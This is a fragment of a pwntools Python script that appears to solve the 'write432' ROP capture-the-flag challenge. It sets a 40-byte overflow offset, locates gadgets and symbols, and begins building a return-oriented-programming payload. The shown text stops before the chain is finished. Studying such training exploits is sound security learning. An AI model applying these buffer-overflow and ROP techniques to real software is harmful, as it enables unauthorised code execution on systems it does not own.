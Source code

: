 	from pwn import *
	from pprint import pprint
	offset = 40
	
	context.arch = 'i386'
	
	elf = ELF("./write432")
	p = elf.process()
	
	
	print(p.recvuntil(b">"))
	# let's first determine where everything is:
	# pprint(elf.symbols)
	
	# let's print out some addresses and double-check with gdb 
	#   print("data start:", p32(elf.symbols["data_start"]))
	#   print("useful gagdets is at: ", p32(elf.symbols["usefulGadgets"]))
	#   print("print_file@plt is located at: " , p32(elf.symbols["plt.print_file"]))
	#   print("print_file is located at: " , p32(elf.symbols["print_file"]))
	
	
	# Crafting variable for our payload :)
	
	# use rop object to locate gadgets in memory
	rop = ROP(elf)
	
	# buffer is 40 A's
	buf = b"A"*offset
	
	# fake ebp
	fake_ebp = b"BBBB"
	
	# printint out rop gadget to make sure that it reads: "pop edi ; pop ebp ; ret"
	print("rop gadget 1 is at: ", p32(rop.edi.address))
	